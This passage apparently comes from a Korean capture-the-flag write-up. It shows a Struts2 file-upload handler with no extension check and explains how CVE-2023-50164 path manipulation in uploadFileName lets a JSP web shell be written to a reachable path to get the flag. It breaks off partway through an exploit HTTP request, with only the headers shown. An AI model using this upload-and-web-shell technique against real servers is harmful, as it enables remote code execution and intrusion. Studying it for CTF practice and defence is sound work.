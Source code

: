 ```java
                FileUtils.copyFile(upload, destFile);
                addActionMessage("File uploaded successfully to " + destFile.getAbsolutePath());

                return SUCCESS;
            } catch (Exception e) {
                addActionError(e.getMessage());
                e.printStackTrace();
                return ERROR;
            }
        } else {
            return INPUT;
        }
    }
    ...
}
```
파일 업로드 기능이 존재하고, `/uploads` 경로에 파일이 업로드 된다. 하지만, `uploads` 경로와 `webapps` 경로가 동일한 디렉터리에 존재하여 해당 경로에 접근할 수 없었다.    
     
확장자 검사를 하지 않고 있어 jsp 파일 업로드가 가능했지만, Path 조작이 필요하다고 생각했다. 
    
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    ...
    <properties>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <maven.compiler.source>17</maven.compiler.source>
        <maven.compiler.target>17</maven.compiler.target>
        <struts2.version>6.3.0.1</struts2.version>
        <jetty-plugin.version>9.4.46.v20220331</jetty-plugin.version>
        <maven.javadoc.skip>true</maven.javadoc.skip>
        <jackson.version>2.14.1</jackson.version>
        <jackson-data-bind.version>2.14.1</jackson-data-bind.version>
    </properties>
    ...
</project>
```
`pom.xml`을 살펴보니 `struts2 6.3.0.1` 버전을 사용하고 있었고, 해당 버전에서 <a href="https://github.com/wy876/POC/blob/main/Apache%20Struts2%20CVE-2023-50164.md">CVE-2023-50164</a>가 존재했다. 파라미터 명을 Upload로 수정하고, uploadFileName에서 Path를 조작하면 원하는 경로에 파일 업로드가 가능해진다.   
      
파일 업로드를 수행한 후, `/cmd.jsp`에 접근하여 웹쉘을 실행시켜 플래그를 획득할 수 있다.      
           
## Exploit Code            
```
POST /main.action;jsessionid=AFB0B463650F0424AD04A78F8EEEA4A9 HTTP/1.1
Host: 52.231.137.29:8380
Content-Length: 1900
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: ko-KR
Upgrade-Insecure-Requests: 1
Origin: http://52.231.137.29:8380
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydNmhuHKBYPqVrS4m
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
```
